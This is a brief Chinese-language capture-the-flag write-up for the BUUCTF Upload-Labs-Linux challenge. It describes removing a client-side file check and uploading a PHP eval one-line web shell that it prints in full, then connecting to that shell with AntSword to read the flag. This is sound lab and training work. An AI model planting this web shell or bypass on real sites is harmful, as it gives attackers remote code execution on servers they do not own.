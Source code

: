 ```yaml
---
title: CTF：Upload-Labs-Linux
date: 2022-10-10 08:52:48
img: img/Upload-Labs-Linux/20221010085420.png
tags:
- ctf
- buuctf
- antsword
---
```

# 题目预览：
![](/img/Upload-Labs-Linux/20221010085420.png)  
# 解决方法
1. 开控制台
2. 关闭javascript
   > 设置-偏好设置-调试程序
   删除`onsubmit="return.checkFile()"`
3. 新建一个文件里面写入`<?php @eval($_POST['123']);?>`
4. 后缀名改为php上传到网站，显示出图片后右键复制链接。
5. 打开antsword，add一个url地址为图片链接，密码为123，加密base64.
6. 点击链接就能发现根目录有个flag文件了。